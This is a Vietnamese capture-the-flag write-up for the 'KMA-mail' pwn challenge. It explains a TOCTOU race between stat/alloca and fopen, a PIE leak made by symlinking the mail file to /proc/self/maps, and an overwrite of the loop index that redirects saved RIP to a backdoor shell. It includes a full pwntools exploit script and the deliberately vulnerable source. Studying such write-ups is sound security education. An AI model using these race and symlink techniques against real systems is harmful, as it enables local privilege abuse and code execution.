







# Task 1: KMA-mail
>Bài này mình chỉ tìm được hướng local-only, nên flag là `KMACTF{fake_flag}`

Trong bài viết này, mình sẽ giải thích các vấn đề bao gồm:

- Luồng xử lý của chương trình: nó check gì, dùng gì, theo thứ tự nào.

- Điểm race nằm ở đâu trong chuỗi thao tác đó, và tài nguyên nào bị đổi trong race window.

- Primitive Discovery 

- Làm sao để biến primitive này thành exploit hoàn chỉnh: chọn target nào để ghi đè và vì sao target đó hợp lý nhất.

### Checksec

- Checksec:
```bash
[*] '/home/huhu/pwn_task/racing/kmamail/share/kmamail'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

### I/O cơ bản:
- Chương trình hoạt động như 1 chương trình nhận và gửi mail, user đăng ký, login rồi gửi mail, ta gửi mail bằng cách nhập `receiver` và gửi newline 3 lần.



- Về lựa chọn read mail, nó sẽ trả về những mail bạn sẽ nhận qua thao tác mở file của chương trình:



- Khi gửi mail thành công, chương trình sẽ in ra dòng thông báo, check `receiver` xem có tồn tại không, và mở file "mail" của receiver rồi `write` vào file đó.

```c
if (stat(receiver, &st) != 0 || !S_ISDIR(st.st_mode)) {
        puts("[-] Receiver does not exist!");
        return;
    }

    puts("[*] Sending your email...");
    usleep(1000000);

    chdir(receiver);
    f = fopen("mail", "w");
    fprintf(f, "%s\n", user);
    fprintf(f, "%s\n", title);
    fprintf(f, "%s\n", content);
    chdir("..");
    fclose(f);
    puts("[*] Mail sent!");
```

### Luồng xử lý của chương trình

- Đầu tiên chương trình gọi `init()`, tắt buffering của stdin/stdout/stderr, check xem có thư mục `data` không, nếu như chưa có thì tạo 1 thư mục mới, sau đó đổi current working directory của process sang `data`.

- `reg_acc()` và `log_acc()` đều là nhập username/password, check xem thư mục `username` của user có tồn tại không, chuyển current working directory, `reg_acc()` tạo file `passwd`, còn `log_acc()` đọc file `passwd` và dùng `strcmp()` để check.

- Sau đó `send_mail()` và `read_mail` sẽ được thực thi tùy vào dữ liệu bạn nhập vào. Trong 2 hàm này, TOCTOU sẽ xảy ra, phần sau ta sẽ tìm hiểu xem TOCTOU là gì.

### Bug ở đâu?
>Bug Class: TOCTOU(Time-Of-Check-to-Time-Of-Use)
- TOCTOU là 1 loại race condition, concept cơ bản của nó là:
  Chương trình kiểm tra 1 điều kiện ở thời điểm A nhưng đến lúc dùng kết quả đó ở thời điểm B thì trạng thái của tài nguyên đã bị thay đổi.
- Cốt lõi của TOCTOU là:

   - có 2 bước tách rời: check rồi mới use 
   - giữa 2 bước đó có một race window
   - ta sẽ tìm cách đổi trạng thái tài nguyên trong đúng cái window đó

- Những tài nguyên thường bị target:
 
   - file path / symlink
   - permission / ownership
   - shared memory
   - biến trạng thái dùng chung giữa nhiều thread/process 

- Vậy, lần này, ta hãy quan sát kĩ hàm `read_mail()`

```c
void read_mail() {
    struct stat *st = malloc(sizeof(struct stat));
    FILE *f;
    char *buf;

    chdir(user);
    if (stat("mail", st) != 0) {
        puts("[-] No mail received!");
        return;
    }
    buf = alloca(st->st_size);
    ### Ta nhận
    puts("[*] Opening mail...");
    usleep(1000000);

    puts("[*] Reading mail...");
    f = fopen("mail", "r");
    puts("--- SENDER --------------------");
    fgets(buf, 256, f);
    printf("%s", buf);
    puts("--- TITLE -----------------------");
    fgets(buf, 256, f);
    printf("%s", buf);
    puts("--- CONTENT ---------------------");
    for (int i=0; i<1024; i++) {
        buf[i] = fgetc(f);
        if (buf[i]=='n' && buf[i-1]=='\\') {
            buf[--i] = '\n';
        } else if (buf[i]=='\n') {
            buf[i] = '\0';
            break;
        }
    }
    printf("%s", buf);

    chdir("..");
}
```
- Lổ hổng lớn nhất chính là `usleep` và `alloca`, chương trình sẽ nhận return_val của alloca cho buf, nếu như ta thay đổi giá trị của buf tại thời điểm `usleep` => buffer overflow => đè vào RIP => nhảy tới backdoor 

### Primitive discovery

- Khung xpl.py:

```python
from pwn import *
import os, re, time, shutil

context.binary = elf = ELF("./kmamail", checksec=False)

gs = '''
set pagination off
b usleep
run
'''


def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def mes(io, x): io.sendlineafter(b"> ", str(x).encode())

def reg(io, name, passwd):
    mes(io, 1)
    io.sendlineafter(b"Username: ", name)
    io.sendlineafter(b"Password: ", passwd)

def login(io, name, passwd):
    mes(io, 2)
    io.sendlineafter(b"Username: ", name)
    io.sendlineafter(b"Password: ", passwd)

def put(path, data=None, link=None):
    if os.path.lexists(path):
        os.unlink(path)
    if link:
        os.symlink(link, path)
    else:
        open(path, "wb").write(data)

def main():
    if os.path.isdir("./data"):
        shutil.rmtree("./data")

    io = start()
    name = b"huhu"
    passwd = b"racecondition101"
    mail = "./data/huhu/mail"
```

- Mình sử dụng 1 helper giúp tạo symlink và writedata dễ hơn: 

```python
def put(path, data=None, link=None):
    if os.path.lexists(path):
        os.unlink(path)
    if link:
        os.symlink(link, path)
    else:
        open(path, "wb").write(data)
```

- Đầu tiên, ta sẽ thử debug, ta set breakpoint tại usleep:



Tương đương với đoạn `usleep` ở đây:

```c
stat("mail", st);
buf = alloca(st->st_size);
puts("[*] Opening mail...");
#breakpoint tại đây
usleep(1000000);             
fopen("mail", "r");
```
- Bây giờ, ta cần tìm đoạn `st->st_size`, `buf` và tính khoảng cách đến RIP:

- Trong disassembly của read_mail có đoạn:

   
   
   Tương đương với đoạn:
   ```c
   struct stat *st = malloc(sizeof(struct stat));
   ```
   
   Từ đây ta có con trỏ *st 


   

- Đoạn *st+0x10 chính là st_size.

  

- Ta có thể thấy, size hiện tại là 0xa, vì chuỗi mà chúng ta dùng là b"0123456789"

- Tuy nhiên, nếu như ở 1 terminal khác, ta `rm -f data/huhu/mail` rồi tạo 1 cái symlink ở /proc/self/maps, ta sẽ overflow được stack.



- Còn nếu chúng ta muốn leak pie từ đây, ta có thể tạo 1 mes 0x400 rồi symlink vào /proc/self/maps để leak PIE

### Exploitation
- Vậy thì ta nên sử dụng primitive nào để khai thác chương trình này? 

- Không thể ghi đè GOT hay .fini_array vì chương trình implement `FULL RELRO`.

- Những target như `__malloc_hook` hay `__free_hook` không phù hợp vì mình không có arbitary write đến mức thay đổi địa chỉ và dữ liệu

- Vậy về stack thì sao? ta có thể target `stack`, `stack` cũng có `retaddr` hoặc là `fp`. Nhưng mà ta không thấy chương trình gọi funtion pointer nào đủ tiện vì đáng ra ta phải ghi đè được nó và chương trình sẽ gọi nó sau đó. Vì vậy, ta chỉ còn cách ghi đè `retadd`

- Có thể thấy, chương trình có 1 hàm `backdoor` sẽ gọi `\bin\sh` cho chúng ta, vì vậy, nếu như ta thay đổi được CFG, ta có thể làm nó nhảy tới hàm này. Vì chương trình đã có sẵn hàm nguy hiểm, nên ta không cần tới những phương án `code execution`.

- Vì chương trình cũng implement `PIE` nên ta phải leak PIE và chương trình cũng sẽ có canary nên ta không thể ghi đè buffer 1 cách trực tiếp.

- Vì mình không tìm được lỗ hổng trực tiếp của chương trình, nên mình sẽ tận dụng lợi thế local, đó là bắt chương trình đọc `/proc/self/maps` để leak, sau đó mình sẽ trigger overflow, cụ thể là tại biến `i`, trong send_mail có đoạn:

```c
for (int i=0; i<1024; i++) {
        buf[i] = fgetc(f);
        if (buf[i]=='n' && buf[i-1]=='\\') {
            buf[--i] = '\n';
        } else if (buf[i]=='\n') {
            buf[i] = '\0';
            break;
        }
```

- Nếu như mình ghi đè vào giá trị i, thì ta sẽ sửa được i mà i là giá trị dùng để defe của buf, nên ta có thể dùng buf[i] để ghi vào vùng mà chúng ta muốn

- Vậy trước hết ta sẽ leak PIE:

```python
    put(mail, b"A"*0x400)
    mes(io, 2)
    put(mail, link="/proc/self/maps")
    out = io.recvuntil(b"---- MENU ----")

    s, off = re.search(
        rb"([0-9a-f]+)-[0-9a-f]+\s+\S+\s+([0-9a-f]+)\s+[0-9a-f:]+\s+\d+\s+.*?/kmamail(?:\n|$)",
        out
    ).groups()
    base = int(s, 16) - int(off, 16)

    ret = base + 0x101a
    win  = base + elf.sym.backdoor
```

- Sau đó mình sẽ overflow để nhảy tới backdoor:

```python
    put(mail, b"0123456789")
    mes(io, 2)
    put(mail, b"\n\n" + b"A"*0x2c + p8(0x57) + p64(ret) + p64(win) + b"\n")
```

- `put(mail, b"\n\n" + b"A"*0x2c + p8(0x57) + p64(ret) + p64(win) + b"\n")`

- Ta ghi đè lowbyte của i , sau khi i++, i thành 0x58, buf[0x58] chính là saved RIP, sau đó ta nhảy tới ret vì nếu ta call 1 hàm, thì thường hàm đó sẽ check alignment, và rồi nhảy tới win.

### Solve Code hoàn chỉnh:

````python
from pwn import *
import os, re, time, shutil

context.binary = elf = ELF("./kmamail", checksec=False)

gs = '''
start
b main
b usleep
'''


def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def mes(io, x): io.sendlineafter(b"> ", str(x).encode())

def reg(io, name, passwd):
    mes(io, 1)
    io.sendlineafter(b"Username: ", name)
    io.sendlineafter(b"Password: ", passwd)

def login(io, name, passwd):
    mes(io, 2)
    io.sendlineafter(b"Username: ", name)
    io.sendlineafter(b"Password: ", passwd)

def put(path, data=None, link=None):
    if os.path.lexists(path):
        os.unlink(path)
    if link:
        os.symlink(link, path)
    else:
        open(path, "wb").write(data)

def main():
    if os.path.isdir("./data"):
        shutil.rmtree("./data")

    io = start()
    name = b"huhu"
    passwd = b"racecondition101"
    mail = "./data/huhu/mail"

    reg(io, name, passwd)
    login(io, name, passwd)

    put(mail, b"A"*0x400)
    mes(io, 2)
    put(mail, link="/proc/self/maps")
    out = io.recvuntil(b"---- MENU ----")

    s, off = re.search(
        rb"([0-9a-f]+)-[0-9a-f]+\s+\S+\s+([0-9a-f]+)\s+[0-9a-f:]+\s+\d+\s+.*?/kmamail(?:\n|$)",
        out
    ).groups()
    base = int(s, 16) - int(off, 16)

    ret = base + 0x101a
    win  = base + elf.sym.backdoor

    put(mail, b"0123456789")
    mes(io, 2)
    put(mail, b"\n\n" + b"A"*0x2c + p8(0x57) + p64(ret) + p64(win) + b"\n")

    io.interactive()

if __name__ == "__main__":
    main()
````

### Source Code

- Source Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdbool.h>
#include <sys/stat.h>
#include <unistd.h>
#include <string.h>

char *user;

void backdoor() {
    system("/bin/sh");
}

void init() {
    struct stat st;

    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    if (stat("data", &st) != 0 || !S_ISDIR(st.st_mode)) {
        mkdir("data", 0755);
    }
    chdir("data");
}

void reg_acc() {
    struct stat st;
    FILE *f;
    char username[256], password[256];

    printf("Username: ");
    scanf("%255[a-zA-Z0-9]", username);
    printf("Password: ");
    scanf("%255s", password);

    if (stat(username, &st) == 0 && S_ISDIR(st.st_mode)) {
        puts("[-] Account existed!");
        return;
    }
    if (mkdir(username, 0755)!=0) {
        printf("[-] Failed to create user '%s'\n", username);
        return;
    }

    chdir(username);
    f = fopen("passwd", "w");
    if (f==NULL) {
        puts("[-] Failed to open passwd!");
        return;
    }
    fprintf(f, "%s", password);
    fclose(f);
    chdir("..");

    puts("[+] Account created!");
}

bool log_acc() {
    struct stat st;
    FILE *f;
    char username[256], password[256], tmp_password[256];

    printf("Username: ");
    scanf("%255[a-zA-Z0-9]", username);
    printf("Password: ");
    scanf("%255s", tmp_password);

    if (stat(username, &st) != 0 || !S_ISDIR(st.st_mode)) {
        puts("[-] Username or password is incorrect!");
        return false;
    }

    chdir(username);
    f = fopen("passwd", "r");
    if (f==NULL) {
        puts("Failed to open passwd!");
        return false;
    }
    fscanf(f, "%s", password);
    fclose(f);
    chdir("..");

    if (strcmp(password, tmp_password)) {
        puts("[-] Username or password is incorrect!");
        return false;
    }
    user = strdup(username);
    puts("[*] Logged in!");
    return true;
}

void send_mail() {
    struct stat st;
    FILE *f;
    char receiver[256], title[256], content[1024];
    char count = 0;
    int i = 0;

    puts("--- RECEIVER --------------------");
    scanf("%255[a-zA-Z0-9]", receiver);
    getchar();
    puts("--- TITLE -----------------------");
    fgets(title, 256, stdin);
    if (title[strlen(title)-1]=='\n')
        title[strlen(title)-1] = '\0';
    puts("--- CONTENT ---------------------");
    for (i=0; i<1021 && count!=3; i++) {
        content[i] = getchar();
        if (content[i]=='\n') {
            content[i++] = '\\';
            content[i] = 'n';
            count++;
        } else {
            count = 0;
        }
    }

    if (stat(receiver, &st) != 0 || !S_ISDIR(st.st_mode)) {
        puts("[-] Receiver does not exist!");
        return;
    }

    puts("[*] Sending your email...");
    usleep(1000000);

    chdir(receiver);
    f = fopen("mail", "w");
    fprintf(f, "%s\n", user);
    fprintf(f, "%s\n", title);
    fprintf(f, "%s\n", content);
    chdir("..");
    fclose(f);
    puts("[*] Mail sent!");
}

void read_mail() {
    struct stat *st = malloc(sizeof(struct stat));
    FILE *f;
    char *buf;

    chdir(user);
    if (stat("mail", st) != 0) {
        puts("[-] No mail received!");
        return;
    }
    buf = alloca(st->st_size);

    puts("[*] Opening mail...");
    usleep(1000000);

    puts("[*] Reading mail...");
    f = fopen("mail", "r");
    puts("--- SENDER --------------------");
    fgets(buf, 256, f);
    printf("%s", buf);
    puts("--- TITLE -----------------------");
    fgets(buf, 256, f);
    printf("%s", buf);
    puts("--- CONTENT ---------------------");
    for (int i=0; i<1024; i++) {
        buf[i] = fgetc(f);
        if (buf[i]=='n' && buf[i-1]=='\\') {
            buf[--i] = '\n';
        } else if (buf[i]=='\n') {
            buf[i] = '\0';
            break;
        }
    }
    printf("%s", buf);

    chdir("..");
}

int main(int argc, char const *argv[])
{
    bool is_done = false, is_login = false;
    int option;

    init();
    while (!is_done) {
        if (is_login) {
            puts("---- MENU ----");
            puts("1. Send mail");
            puts("2. Read mail");
            puts("0. Exit");
            printf("> ");
            scanf("%d", &option);
            getchar();

            switch (option) {
            case 0:
                puts("[*] Logged out!");
                is_login = false;
                break;
            case 1:
                send_mail();
                break;
            case 2:
                read_mail();
                break;
            default:
                puts("[-] Invalid choice!");
            }
        } else {
            puts("---- MENU ----");
            puts("1. Register");
            puts("2. Login");
            puts("0. Exit");
            printf("> ");
            scanf("%d", &option);
            getchar();

            switch (option) {
            case 0:
                puts("[*] See you later!");
                is_done = true;
                break;
            case 1:
                reg_acc();
                break;
            case 2:
                is_login = log_acc();
                break;
            default:
                puts("[-] Invalid choice!");
            }
        }
    }

    return 0;
}
```